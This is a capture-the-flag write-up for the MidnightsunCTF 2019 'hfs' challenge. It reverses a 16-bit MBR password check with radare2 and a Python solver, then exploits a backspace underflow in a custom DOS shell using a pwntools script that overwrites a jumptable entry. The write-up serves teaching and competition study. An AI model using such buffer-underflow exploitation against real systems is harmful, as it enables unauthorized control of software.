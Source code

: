 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF Quals 2019 - hfs
tags: 
    - kowu
---
```


# Stage1: Getting Past The Password Auth (hfs-mbr)

I used IDA in remote debug mode during the CTF, but it was somehow buggy and an overall painful experience for me.
Writeup using radare2 (even though, what a surprise, their 16 bit remote debugger seems to be currently kind of broken as well).

```
r2 -b16 dos.img
```

At offset `0000:0637` we find the main password loop of the program.

![m1](/assets/img/midnight_hfsdos1.png)

A single character is read, then a check is performed if the character is in the range of [a-z].
If it is, the char is converted into numbers ranging from 0 to 25. Afterwards the number is multiplied by 2 and serves as the index of a jumptable.
E.g. depending on the index a different function is called (jmp ax).

We can find the called functions below, starting at `0000:0662`. Luckily they were in oder, e.g. the first jumptable function belongs to the character 'a', the second to 'b', etc.

![m11](/assets/img/midnight_hfsdos11.png)

Most of the functions are dummy ones, effectively doing nothing. But some of them contain some checks, and depending on the outcome a different path is choosen.
The 0x7d9 path is the one we don't want to take. 0x7ce Is the way to go because it increments a counter for the amount of 'correct chars' (0x81bb), while the other one just increments the 'total chars' (0x81ba).
If after 9 input bytes both counters are equal, the password is correct.

So the objective is clear, we have to find the correct order of all jumptable functions.

Effectively all jumptable functions are doing the same, however they are more or less "obfuscated".
1. They take the number of 'total chars' and xor it with the current input character (`xor dl, byte [0x81ba]`).
2. They compare the resulting value with a fixed one, and take the good branch if correct


So I just deobfuscated all functions and noted the value they compare the input with. E.g. the function for char 'e' can be seen at `0000:0686`.
1. The first ax assignment is useless because of the follow up `xor ax, ax` (ax = 0)
2. 6 times adding 0x10 to ax is equal to ax = 0x60
3. Therefore 0x60 is subtracted from our xored charcode, and if the result is 2 we are good. This equation is fulfilled for xored charcode == 0x62.

I now did this for all functions and wrote a python script to resolve the correct order.

```python
chars = {'e': 0x62, 'j': 0x68, 'n': 0x68, 'o': 0x6e, 'p': 0x74, 'r': 0x7a, 's': 0x73, 'u': 0x76, 'w': 0x72}
pw = ''
n = 0
for _ in range(len(chars)):
    for c in chars:
        if (ord(c) ^ n) == chars[c]:
            pw += c
            n += 1
print(pw)
```
we get `sojupwner`, wich leads us to the first flag `midnight{w0ah_Sh!t_jU5t_g0t_REALmode}` and gives us access to stage2.
We are now dropped into a custom written "shell" (COMMAND.COM).

# Stage2: Pwning The Shell (hfs-dos)


First of all, I extracted the COMMAND.COM binary out of the raw image.
```
fdisk -l dos.img
```
```
Disk dos.img: 10 MiB, 10485760 bytes, 20480 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000

Device     Boot Start   End Sectors  Size Id Type
dos.img1   *       63 20159   20097  9.8M  1 FAT12
```
We can see that the FAT12 Filesystem starts at offset 63, and the sector size is 512. Therefore we setup the loop device for an offset of 63*512.
```
losetup /dev/loop0 dos.img -o 32256
```
Now we can mount and comfortably read the filesystem.
```
mount /dev/loop0 /mnt
```
Extract the COMMAND.COM and throw it into IDA or radare2.

The bug was pretty easy to spot as well, even found it bevore even looking at the disassembly. Deleting a character by using backspace had no lower bounds check.
With this we could owerwrite jumptable entries for console commands as they were placed directly above the input buffer.
By entering an overwritten command we now could now jump arbitrary.

![m2](/assets/img/midnight_hfsdos2.png)

An other thing I used to exploit is, that the shell reads and prints the flag for stage1 in the beginning.
And the Filename of Flag1 was right above us as well. Therefore my attack was as follows:

1. Overwrite the filename of the first flag (FLAG1) so it becomes FLAG2
2. Overwrite a jumptable entry of some console command with the address of the "print flag" function.
3. Trigger by executing the overwritten command ("pong" in my case)

```python
from pwn import *

# setup and stage1
r = remote('hfs-os-01.play.midnightsunctf.se', 31337)
r.recvuntil('MBR]>')
r.sendline('sojupwner')
r.send('ping')
r.recvuntil('PONG')

# actual exploit
r.send('\x7f' * 3 + '2\x0d')
r.send('\x7f' * 11 + struct.pack('<H', 0x14f) + '\x0d')
r.send('pong')
r.interactive()
```

we get `midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`.
